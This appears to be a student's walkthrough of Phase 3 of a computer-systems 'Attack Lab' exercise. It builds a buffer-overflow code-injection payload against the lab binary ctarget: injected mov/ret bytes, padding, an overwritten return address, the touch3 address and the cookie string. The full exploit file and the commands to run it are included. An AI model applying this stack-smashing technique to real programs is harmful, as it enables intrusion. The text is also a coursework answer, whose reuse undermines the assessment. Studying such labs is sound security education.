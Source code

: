 # Phase 3:  

We have to be careful how we store the cookie here because function hexmatch can overwrite the cookie.

We will need to store the cookie after touch3 by passing the address for the cookie to register $rdi.

We will need to calculate the following:
```
buffer + 8 bytes for return address of rsp + 8 bytes for touch3
```
```
0x38 + 8bytes + 8bytes = 0x48
```
So, we need to add 0x48 to the address of rsp(we got this in phase2):
```
0x5561a060 + 0x48 = 0x5561a0a8
```
Now, we want to write the assembly instructions and compile/objdump like we did in phase2. This is what we get:
```
Phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 a0 61 55 	mov    $0x5561a0a8,%rdi
   7:	c3                   	ret 
```
We now have our first line for our file:
```
48 c7 c7 a8 a0 61 55 c3
```
The next few lines will be our padding (remember, buffer is 56 bytes)
We will then want to add the return address for rsp: ` 0x5561a060`
And then we will want to get the address to touch3 from phase123dump:
```
000000000040275c <touch3>:
  40275c:	53                   	push   %rbx
  40275d:	48 89 fb             	mov    %rdi,%rbx
  402760:	c7 05 d2 20 11 00 03 	movl   $0x3,0x1120d2(%rip)        # 51483c <vlevel>
  402767:	00 00 00 
  40276a:	48 89 fe             	mov    %rdi,%rsi
  40276d:	8b 3d d1 20 11 00    	mov    0x1120d1(%rip),%edi        # 514844 <cookie>
  402773:	e8 35 ff ff ff       	call   4026ad <hexmatch>
  402778:	85 c0                	test   %eax,%eax
  40277a:	74 2d                	je     4027a9 <touch3+0x4d>
  40277c:	48 89 da             	mov    %rbx,%rdx
  40277f:	48 8d 35 6a 9b 0d 00 	lea    0xd9b6a(%rip),%rsi        # 4dc2f0 <_IO_stdin_used+0x2f0>
  402786:	bf 01 00 00 00       	mov    $0x1,%edi
  40278b:	b8 00 00 00 00       	mov    $0x0,%eax
  402790:	e8 fb 43 05 00       	call   456b90 <___printf_chk>
  402795:	bf 03 00 00 00       	mov    $0x3,%edi
  40279a:	e8 7d 03 00 00       	call   402b1c <validate>
  40279f:	bf 00 00 00 00       	mov    $0x0,%edi
  4027a4:	e8 17 ab 00 00       	call   40d2c0 <exit>
  4027a9:	48 89 da             	mov    %rbx,%rdx
  4027ac:	48 8d 35 65 9b 0d 00 	lea    0xd9b65(%rip),%rsi        # 4dc318 <_IO_stdin_used+0x318>
  4027b3:	bf 01 00 00 00       	mov    $0x1,%edi
  4027b8:	b8 00 00 00 00       	mov    $0x0,%eax
  4027bd:	e8 ce 43 05 00       	call   456b90 <___printf_chk>
  4027c2:	bf 03 00 00 00       	mov    $0x3,%edi
  4027c7:	e8 4a 04 00 00       	call   402c16 <fail>
  4027cc:	eb d1                	jmp    40279f <touch3+0x43>
```
touch3 address: `000000000040275c`
Now, for the final line, we need to translate are cookie to ASCII:
```
Cookie: 0x76ebdb56

7 = '55'
6 = '54'
e = '101'
b = '98'
d = '100'
b = '98'
5 = '53'
6 = '54'
```
Then, we convert each of those values back to hexadecimal:
```
55 = '37'
54 = '36'
101 = '65'
98 = '62'
100 = '64'
98 = '62'
53 = '35'
54 = '36'
```
The last line in our file is 37 36 65 62 64 62 35 36

Here is our text file:
```
48 c7 c7 a8 a0 61 55 c3 /*rsp + 0x48 which is where the cookie is*/
00 00 00 00 00 00 00 00 /* padding*/
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
60 a0 61 55 00 00 00 00 /*return address for rsp*/
5c 27 40 00 00 00 00 00 /* touch3 address */
37 36 65 62 64 62 35 36 /*cookie in string format*/
```
generate raw exploit:
```
./hex2raw < ctarget.l3.txt > exploit3.dat
```
run the file:
```
./ctarget < exploit3.dat
```
Done!